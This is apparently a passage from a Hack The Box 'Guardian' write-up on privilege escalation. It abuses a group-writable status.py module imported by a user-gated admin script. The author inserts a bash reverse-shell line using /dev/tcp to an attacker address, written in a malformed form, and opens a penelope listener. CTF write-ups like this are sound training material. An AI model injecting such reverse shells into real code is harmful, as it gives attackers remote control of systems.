 ```
    ], help="Action to perform")
    
    args = parser.parse_args()
    user = getpass.getuser()

    if args.action == "backup-db":
        if user != "mark":
            print("Access denied.")
            sys.exit(1)
        db.backup_database()
    elif args.action == "zip-attachments":
        if user != "mark":
            print("Access denied.")
            sys.exit(1)
        attachments.zip_attachments()
    elif args.action == "collect-logs":
        if user != "mark":
            print("Access denied.")
            sys.exit(1)
        logs.collect_logs()
    elif args.action == "system-status":
        status.system_status()
    else:
        print("Unknown action.")

if __name__ == "__main__":
    main()
```
### import function rewrite with group privilege

All functions required user to be ``mark`` but all user can run ``sytem_status`` functions that import from ``utils/status``

```
-bash-5.1$ ls -lah /opt/scripts/utilities/utils/
total 24K
drwxrwsr-x 2 root root   4.0K Jul 10 14:20 .
drwxr-sr-x 4 root admins 4.0K Jul 10 13:53 ..
-rw-r----- 1 root admins  287 Apr 19  2025 attachments.py
-rw-r----- 1 root admins  246 Jul 10 14:20 db.py
-rw-r----- 1 root admins  226 Apr 19  2025 logs.py
-rwxrwx--- 1 mark admins  361 Oct 24 13:10 status.py
```
We are in the same ``admins`` group so we would be able to edit this file

```
-bash-5.1$ nano /opt/scripts/utilities/utils/status.py 
-bash-5.1$ cat /opt/scripts/utilities/utils/status.py 
# status.py 
import platform
import psutil
import os
import subprocess

def system_status():
    print("System:", platform.system(), platform.release())
    print("CPU usage:", psutil.cpu_percent(), "%")
    print("Memory usage:", psutil.virtual_memory().percent, "%")
    subprocess.run(["/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.10.10.14.113/1235 0>&1"])

```
setup a listener for a reverse shell
```
┌──(kali㉿kali)-[~/Desktop/HTB/Guardian]
└─$ penelope -p 1235
```